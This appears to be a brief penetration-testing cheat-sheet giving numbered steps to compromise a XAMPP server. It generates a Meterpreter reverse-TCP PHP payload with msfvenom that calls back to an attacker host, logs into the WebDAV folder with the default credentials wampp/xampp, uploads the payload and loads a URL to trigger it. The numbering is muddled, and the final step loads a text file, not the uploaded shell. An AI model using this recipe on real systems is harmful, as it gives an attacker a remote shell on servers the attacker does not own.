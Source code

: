 0. Create php payload in Meterpreter
	``` msfvenom -p windows/meterpreter/reverse-tcp LHOST=<KALI-IP> LPORT=<PORT> -f php meterpretershell.php```

2. login to the XAMPP server's WebDAV folder 
```
cadaver http://<REMOTE HOST>/webdav/
user: wampp
pass: xampp
```

2. upload a file/payload to the webdav folder 
	```put meterpretershell.php ```

3. load URL, http://REMOTE-HOST/webdav/helloworld.txt, in browser



